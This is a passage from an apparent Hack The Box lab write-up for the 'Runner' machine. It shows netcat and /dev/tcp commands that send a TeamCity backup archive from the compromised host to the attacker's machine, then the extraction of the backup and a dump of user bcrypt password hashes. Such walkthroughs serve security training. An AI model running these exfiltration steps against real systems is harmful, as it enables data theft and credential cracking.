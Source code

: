 ![](/assets/obsidian/e8cbda0d0b9468c2e95112a46ddc8008.png)

![](/assets/obsidian/552566ab49578d28a7d237b60c1efdbc.png)

Transfer the backup file to kali

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ nc -lvnp 443 > loot/TeamCity_Backup_20240426_042215.zip
```

```bash
tcuser@647a82f29ca0:~$ cat /data/teamcity_server/datadir/backup/TeamCity_Backup_20240426_042215.zip > /dev/tcp/10.10.14.107/443
```

### Crack user hashes

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ 7z x TeamCity_Backup_20240426_042215.zip -o'TeamCity_Backup_20240426_042215'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ cd TeamCity_Backup_20240426_042215

┌──(bravosec㉿fsociety)-[~/htb/Runner/loot/TeamCity_Backup_20240426_042215]
└─$ cat database_dump/users
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1714109801524, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, city_adminhxaa, $2a$07$dHbchjpJcA1SVRmBAUSRwOCaUkT1JPCwFdgb9ns4XE3C.Y/aG1fmW, , angry-admin@funnybunny.org, 1714109822452, BCRYPT
```
